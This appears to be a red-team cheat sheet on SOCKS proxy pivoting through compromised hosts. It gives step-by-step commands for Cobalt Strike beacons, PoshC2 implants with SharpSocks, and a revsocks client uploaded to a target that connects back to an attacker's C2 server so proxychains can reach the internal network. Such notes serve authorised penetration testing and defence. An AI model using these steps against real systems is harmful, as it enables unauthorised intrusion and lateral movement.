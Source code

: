 

---
### __SOCKS proxy:__
#### _Cobalt Strike Socks Proxy:_
- 1\. In a beacon, start the SOCKS4a server and specify its port \(set sleep to 0\): `socks <port>`
- 2\. Use SOCKS Proxy:
	- Proxychains:
		- 1\. Configure proxychains, your browser or the SOCKS aware application to point to: 127\.0\.0\.1:1080
		- 2\. It is now possible to use the SOCKS proxy: `proxychains4 <normal syntax>`
	- Metasploit tunnel:
		- 1\. In Cobalt Strike, go to View > Proxy Pivots, highlight the existing SOCKS proxy, click the ‘Tunnel’ button and copy the generated string
		- 2\. Start msfconsole and paste the copied string
		- 3\. Most MSF modules are now auto proxied and only require the normal setup \(e\.g\. rhost\)\. 

#### _PoshC2 Socks Proxy_
This SOCKS proxy technique requires a PowerShell implant to work\. Overall very tricky to use: only works the first time you use it and if it fails, stop the socksproxy, kill beacon and start over\. 
- 1\. Get a powershell implant on the target host using your favorite execution method and set the beacon time to 1 sec\. 
- 2\. Start SharpSocks within the beacon \(if you start sharpsocks in a Daisy PS beacon, the URL that is requested must point to your downstream PS beacon \(e\.g\. http://10\.111\.10\.45:7580/\): `sharpsocks`
- 3\. Copy the printed sharpsocks string and paste it into a new terminal pane \(NOT into the PoshC2 implant handler\)\.
- 4\. Once you pasted the string and the server has started, type ‘Y’ into the implant handler window\. The output should indicate that the implant has started\. You can confirm this by looking at the output from the server you started in the previous step\. If it has started, you should see that the SOCKS Proxy is now listening \(most likely on 43334\)\.
- 5\. Configure proxychains or the SOCKS aware application to point to 127\.0\.0\.1:43334\.
- 6\. It is now possible to use the SOCKS proxy \(everything works via the socks proxy but its slow\): `proxychains4 <normal syntax>`
- 7\. \(optional\) Stop the SOCKS proxy: `stopsocks`

#### _Windows/Linux SOCKS5 Proxy with revsocks:_
This socks proxy technique can be used for establishing a connection between linux\-linux, linux\-windows and windows\-windows type systems\. 
- 1\. On your owned controlled \(C2\) server start the socks proxy server \([revsocks](https://github.com/kost/revsocks/releases)\):  `<revsocks | revsocks.exe> -listen <listener ip address>:<listening port> -socks 127.0.0.1:1080 -pass <password of your choosing>`
- 2\. Upload the revsocks\.exe binary to the target \(Windows or Unix based\) host and start the client to make a connection to the server: `<revsocks | revsocks.exe> -connect <remote server IP>:<port to connect to> -pass <set password> (-proxyauth <domain>/<username>:<password>) -useragent "<string (e.g. Mozilla 5.0/IE Windows 10)>"`
- 3\. Configure the “proxychains\.conf” file and add “socks5 <TAB> 127\.0\.0\.1:1080” so it uses SOCKS v5\.
- 4\. Use proxychains4 to connect to the internal network of the target system: `proxychains4 <command>`
